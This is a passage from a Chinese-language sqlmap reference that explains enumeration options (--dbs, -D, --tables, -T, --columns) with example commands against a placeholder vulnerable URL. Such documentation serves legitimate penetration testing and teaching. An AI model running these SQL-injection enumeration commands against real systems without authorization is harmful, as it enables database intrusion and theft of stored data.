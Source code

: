     :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" -p id
    ```

#### **3. 数据库信息**

- **`--dbs`**:

  - **说明**: 列出目标数据库中的所有数据库。

  - 示例

    :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs
    ```

- **`-D [database]`**:

  - **说明**: 指定要操作的数据库。

  - 示例

    :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" -D mydatabase --tables
    ```

- **`--tables`**:

  - **说明**: 列出指定数据库中的所有表。

  - 示例

    :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" -D mydatabase --tables
    ```

- **`-T [table]`**:

  - **说明**: 指定要操作的表。

  - 示例

    :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" -D mydatabase -T mytable --columns
    ```

- **`--columns`**:

  - **说明**: 列出指定表中的所有列。

  - 示例
